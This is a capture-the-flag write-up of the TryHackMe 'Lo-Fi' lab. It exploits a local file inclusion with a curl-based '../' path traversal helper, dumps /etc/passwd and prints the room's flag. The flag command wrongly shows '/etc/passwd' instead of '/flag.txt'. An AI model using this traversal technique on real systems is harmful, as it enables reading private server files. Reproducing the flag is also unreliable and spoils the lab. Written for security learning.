

# Lo-Fi
[tryhackme.com/r/room/lofi](https://tryhackme.com/r/room/lofi)
*Want to hear some lo-fi beats, to relax or study to? We've got you covered!*

**Answer the questions below**

***Climb the filesystem to find the flag!***


# Solution
## Enumeration/Gather Information
The challenge name and description heavily hints towards this being vulnerable to a *Local File Inclusion*, an ***LFI**. This was also the first thing I noticed when I visited the site. The URL says I'm on `http://10.10.85.184/?page=relax.php`, and the parameter `page` is the interesting part here.


## Vulnerability
This parameter most likely just points out a file and renders it, so if I traverse the file tree and point out, for example, `/etc/passwd` I can prove that I can read arbitrary files.



## POC-Exploit
To simplify the process of traversing the file tree and cutting away all of the "fluff" for a better user experience (better experience for me to read file) I've created this small shell-function:
```bash
lfi() {
    file="$1"
    curl -s "http://10.10.85.184/?page=../../../../../../../../..$file" | pup ".card-body:first-of-type"  | head -n -51 | tail -n +2
}
```

> **Explanation**:
> 1. I create a function where I pass the absolute path of the file I want to read on the target file system as an argument.
> 2. I `curl` the website with the file path and parse it using *[pup](https://github.com/ericchiang/pup)*.
> 3. I use `head` and `tail` to clean up some extra lines since I didn't feel like doing a deep-dive into parsing with `pup`.

When I now execute the following command I get the output in a much nicer format:
```bash
$ lfi "/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

## Catching the flag
So, now I can guess my way around the file-system and read files. I wonder where the flag might be? `/flag.txt`?
```bash
$ lfi "/etc/passwd"
flag{e4478e0eab69bd642b8238765dcb7d18}
```

Oh wow! I guessed correctly on the first try?! Sweet!

# Flag
**Flag:** `flag{e4478e0eab69bd642b8238765dcb7d18}`
